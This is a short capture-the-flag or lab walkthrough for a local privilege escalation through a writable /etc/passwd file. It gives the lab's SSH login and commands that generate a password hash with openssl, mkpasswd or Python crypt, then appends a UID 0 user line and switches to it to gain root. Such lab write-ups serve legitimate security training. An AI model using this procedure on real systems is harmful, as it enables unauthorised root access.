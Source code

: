 # Name: Web: Privilege Escalation: Writable

## Vulnerability

Writable ```/etc/passwd``` file.

## Exploit

Connect with ssh to user ```jack:YvFWPeC7sTWJdaYQ```, port 2022.

```ssh jack@<IP> -p 2022```

If you look at the ```/etc/passwd``` file we can see that our user account has read/write access.

```ls -la /etc/passwd```

What we can do is to generate a new password using one of the following commands:

```openssl passwd -1 -salt sparrow sparrow```

```mkpasswd -m SHA-512 sparrow```

```python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'```

This will generate to you a new password which we will write to ```/etc/passwd``` file.

Add the following line:

```sparrow:GENERATED_PASSWORD:0:0:Sparrow:/root:/bin/bash```

Now you can switch the current user to the privileged ```sparrow``` user:

```su sparrow```

And you are root!
